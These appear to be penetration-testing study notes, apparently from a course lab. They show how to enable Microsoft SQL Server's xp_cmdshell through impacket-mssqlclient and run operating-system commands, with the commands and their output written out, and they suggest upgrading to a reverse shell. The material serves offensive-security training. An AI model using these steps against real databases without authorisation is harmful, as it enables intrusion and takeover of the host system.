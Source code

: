 ### Manual Code Execution 
Depending on the underlying database system we are targeting, we need to adapt our strategy to obtain code execution

#### MSSQL
In *Microsoft SQL Server*, the `xp_cmdshell` function takes a string and passes it to a command shell for execution
+ The function returns any output as rows of text
+ The function is disabled by default and, once enabled, it must be called with the **EXECUTE** keyword instead of SELECT

In our database, the _Administrator_ user already has the appropriate permissions
+ Let's enable `xp_cmdshell` by simulating a SQL injection via the <mark style="background: #D2B3FFA6;">impacket-mssqlclient</mark> tool:
``` Shell
impacket-mssqlclient <USER>:<PASS>@<IP> -windows-auth
```
+ With a shell will do the the following commands to enable `xp_cmdshell`:
``` SQL
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
```
+ Example:
``` SQL
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL> RECONFIGURE;

SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL> RECONFIGURE;
```
+ After logging in from our Kali VM to the MSSQL instance, we can enable _show advanced options_ by setting its value to 1, then applying the changes to the running configuration via the **RECONFIGURE** statement 
+ Next, we'll enable _xp_cmdshell_ and apply the configuration again using **RECONFIGURE**

With this feature enabled, we can execute any Windows shell command through the **EXECUTE** statement followed by the feature name:
``` SQL
SQL> EXECUTE xp_cmdshell 'whoami';
output

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

nt service\mssql$sqlexpress

NULL
```
+ Since we have full control over the system, we can now easily upgrade our SQL shell to a more standard reverse shell
